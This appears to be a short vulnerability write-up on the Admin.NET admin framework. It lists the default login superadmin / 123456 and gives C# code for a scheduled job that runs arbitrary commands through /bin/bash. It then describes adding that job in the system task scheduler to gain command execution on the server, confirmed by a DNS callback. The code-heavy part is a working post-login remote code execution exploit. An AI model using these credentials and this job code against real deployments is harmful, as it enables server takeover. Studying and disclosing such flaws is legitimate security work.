 



# Admin.NET

github:https://github.com/zuohuaijun/Admin.NET



Default account password:superadmin / 123456

![image-20240222165158445](adminnet.assets/image-20240222165158445.png)





code

```c
using Furion;
using Furion.Logging;
using Furion.RemoteRequest.Extensions;
using Furion.Schedule;
using Microsoft.Extensions.DependencyInjection;
using System;
using System.Diagnostics;
using System.Threading;
using System.Threading.Tasks;

namespace Admin.NET.Core
{
    [JobDetail("YourJobId")]
    public class DynamicJob : IJob
    {
        private readonly IServiceProvider _serviceProvider;

        public DynamicJob(IServiceProvider serviceProvider)
        {
            _serviceProvider = serviceProvider;
        }

        public async Task ExecuteAsync(JobExecutingContext context, CancellationToken stoppingToken)
        {
            using var serviceScope = _serviceProvider.CreateScope();
            ExecuteCommand("ifconfig");
        }

        private void ExecuteCommand(string command)
        {
            var processStartInfo = new ProcessStartInfo
            {
                FileName = "/bin/bash",
                Arguments = $"-c \"{command}\"",
                RedirectStandardOutput = true,
                UseShellExecute = false,
                CreateNoWindow = true
            };

            var process = new Process { StartInfo = processStartInfo };
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            process.WaitForExit();
            Console.WriteLine(output);
        }
    }
}

```



Select to add a new task in system task scheduling

![image-20240222165853377](adminnet.assets/image-20240222165853377.png)



![image-20240222165945353](adminnet.assets/image-20240222165945353.png)

Write the prepared C language code and run the task to obtain control permissions on the server

![image-20240226142056330](adminnet.assets/image-20240226142056330.png)

After modifying the script, I found that it can be run directly, and then my DNS service received feedback

![image-20240226142241209](adminnet.assets/image-20240226142241209.png)
